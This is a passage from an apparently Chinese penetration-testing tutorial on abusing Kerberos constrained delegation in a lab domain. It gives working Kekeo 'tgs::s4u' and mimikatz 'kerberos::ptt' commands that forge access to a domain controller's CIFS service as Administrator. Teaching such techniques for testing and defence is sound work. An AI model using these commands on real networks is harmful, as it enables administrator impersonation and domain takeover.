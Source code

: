 通过 TGT，**请求**一张以 `Administrator` 用户身份访问对应服务 2（**DC 的 cifs 服务**）的 ST：`tgs::s4u /tgt:TGT_win7$@PENTEST.COM_krbtgt~pentest.com@PENTEST.COM.kirbi /user:administrator@pentest.com /service:cifs/dc.pentest.com`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150503.png-water_print](assets/1699409170-184f943a5499053a5ca3c682d28f3d0c.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150503.png-water_print")

`S4U2Self` 获取到的 ST1 以及 `S4U2Proxy` 获取到的 DC CIFS 服务的 ST2 会保存在当前目录下：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150616.png-water_print](assets/1699409170-8133c50342b20df6378614a2dad25c19.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150616.png-water_print")

用 mimikatz 将 ST2 导入当前会话即可：

`kerberos::ptt TGS_administrator@pentest.com@PENTEST.COM_cifs~dc.pentest.com@PENTEST.COM.kirbi`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150813.png-water_print](assets/1699409170-d834dc6ba308a263663049362fec34f1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126150813.png-water_print")

##### [](#3222-spn-%E8%AE%BE%E7%BD%AE%E5%BD%B1%E5%93%8D%E5%AF%B9%E5%BA%94%E7%A5%A8%E6%8D%AE)3.2.2.2 SPN 设置影响对应票据

当委派的权限不是 cifs 时，如 time 权限，如何进一步测试？
